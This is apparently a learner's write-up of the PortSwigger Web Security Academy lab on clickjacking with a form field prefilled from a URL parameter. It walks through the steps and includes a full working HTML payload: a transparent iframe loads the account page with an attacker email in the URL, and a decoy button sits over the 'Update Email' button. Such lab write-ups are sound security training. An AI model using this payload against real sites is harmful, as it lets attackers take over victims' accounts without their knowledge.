



# [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

## Steps

- Opened the target web application and logged in with the provided credentials. Navigated to the account page and identified an email update form. Inspected the form to determine how the email field was submitted and confirmed that the `email` parameter was passed as a GET parameter in the URL. This means that the field could be prefilled by supplying a value directly in the iframe `src` URL.


- Intercepted the account page request and observed the URL structure used to prepopulate the email input field. Crafted the target URL with the attacker-controlled email address embedded as a query parameter: `/my-account?email=peter%40normal-user.net`


- Constructed the clickjacking payload using the same technique as the previous lab. Embedded the prefilled target URL inside a transparent `<iframe>` and positioned the decoy button precisely over the "Update Email" submit button by adjusting the `top` and `left` CSS values iteratively.

  ```html
  <style>
    #target_website {
      position: relative;
      width: 1900px;
      height: 635px;
      opacity: 0.5000001;
      z-index: 2;
    }

    #decoy_website {
      position: absolute;
      top: 487px;
      left: 395px;
      z-index: 1;
    }
  </style>

  <div id="decoy_website">
    <button>
      Just click this button!
    </button>
  </div>

  <iframe
    id="target_website"
    src="https://0a1900ed0350c1a18077126900480039.web-security-academy.net/my-account?email=peter12%40normal-user.net"
  >
  </iframe>
  ```

- Delivered the exploit to the victim. When the victim clicked the visible decoy button, they were actually clicking the hidden "Update Email" submit button within the transparent iframe. Because the email field had already been prefilled via the URL parameter, the form was submitted with the attacker-controlled email address without any further input from the victim.


- The email update request was executed successfully, changing the victim's email address to the attacker-controlled value and completing the lab.
